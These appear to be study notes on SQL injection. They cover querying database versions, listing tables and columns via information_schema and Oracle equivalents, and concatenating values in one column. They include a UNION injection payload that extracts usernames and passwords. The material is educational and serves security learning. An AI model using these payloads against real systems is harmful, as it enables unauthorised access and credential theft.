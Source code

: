 ```
| Database type    | Query                   |
| ---------------- | ----------------------- |
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |
```

---

#### Listing the contents of the database

- query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| MyDatabase    | dbo          | Feedback   | BASE TABLE |
```

- query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:
```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ----------- | ---------- |
| MyDatabase    | dbo          | Users      | UserId      | int        |
| MyDatabase    | dbo          | Users      | Username    | varchar    |
| MyDatabase    | dbo          | Users      | Password    | varchar    |
```

---

#### Equivalent to information schema on Oracle
- list tables by querying all_tables:
  - `SELECT * FROM all_tables`

- list columns by querying all_tab_columns:
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

---

#### Retrieving multiple values within a single column

- instead that the query only returns a single column.
- can easily retrieve multiple values together within this single column by concatenating the values together,
- ideally including a suitable separator to let you distinguish the combined values.
- For example
  - on Oracle you could submit the input:
  - `' UNION SELECT username || '~' || password FROM users--`
  - the double-pipe sequence `||`: a string concatenation operator on Oracle.
  - The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.
